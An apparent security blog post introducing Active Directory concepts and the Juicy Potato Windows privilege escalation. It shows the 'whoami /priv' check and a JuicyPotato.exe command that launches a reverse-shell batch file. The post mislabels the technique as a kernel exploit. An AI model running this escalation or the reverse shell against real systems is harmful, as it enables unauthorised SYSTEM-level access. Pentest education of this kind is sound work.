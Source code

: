 ```yaml
---
layout: post
title: "Windows Exploitation"
author: "joelczk"
tags: Vulns
excerpt_separator: <!--more-->
---
```


Disclaimer: All exploits stated in this article are only for educational purposes and all the views expressed in this article are my own personal views and should not be associated with any other organizations/parties that I currently/used to represent.
<!--more-->

## Introduction to Active Directory
To start off, let me introduction all of you to a new term ```Active Directory```. Active directory is the directory service that was developed by Microsoft for a huge range of directory-based identity-related services, and is included in most of Windows Server operating systems.

A server that is running the Active Directory Domain Service is called the domain controller and its main role is to authenticate and authorize users who are accessing any service. It is also responsible for enforcing and assigning security policies for all the computers in the network. 

Lightweight Directory Access Protocol (LDAP) is an internet protocol that is used to access and maintain distributed directory information services over an Internat Protocol network.

Kerberos is a computer-network authentication protocol that uses tickets to allow nodes to communicate over an insecure network to prove their identity to one another in a secure manner.

Currently, Microsoft's Active Directory uses LDAP, Kerberos and DNS. 

## Kernel exploits
Let us now move into the more common kernel exploits that can be exploited on the Active Directory.

### Juicy Potato Exploit
This exploit leverages on the **SeImpersonatePrivilege** or **SeAssignPrimaryToken** that is enabled on the machine to elevate the local privileges to system privileges. Typically, such privileges would be enabled by default if the machine is running IIS or SQL services.

```
PS C:\> whoami /priv
 
PRIVILEGES INFORMATION
----------------------
 
Privilege Name                Description                               State  
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

However, one thing to note is that the Juicy Potato exploit does not work for all Windows version. It only works for specified Windows version:
- Windows Server 2008 R2
- Windows Server 2012
- Windows Server 2012 R2
- Windows Server 2016

Apart from that, we also require that the COM server has a unique CLSID for the exploit to work. 
*Note: COM server is an executable that implements a set of COM objects and CLSID is the globally unique identifier that identifies a COM object*

In such a case, we can use Juicy Potato exploit with the following command.
- p parameter : Program to launch. In this case, we have a shell.bat that will create a reverse shell payload
- l parameter : Port where the COM server is listening to. In this case, the port will be the port of the listener of our reverse shell.
```
.\JuicyPotato.exe -t * -p shell.bat -l <port>
```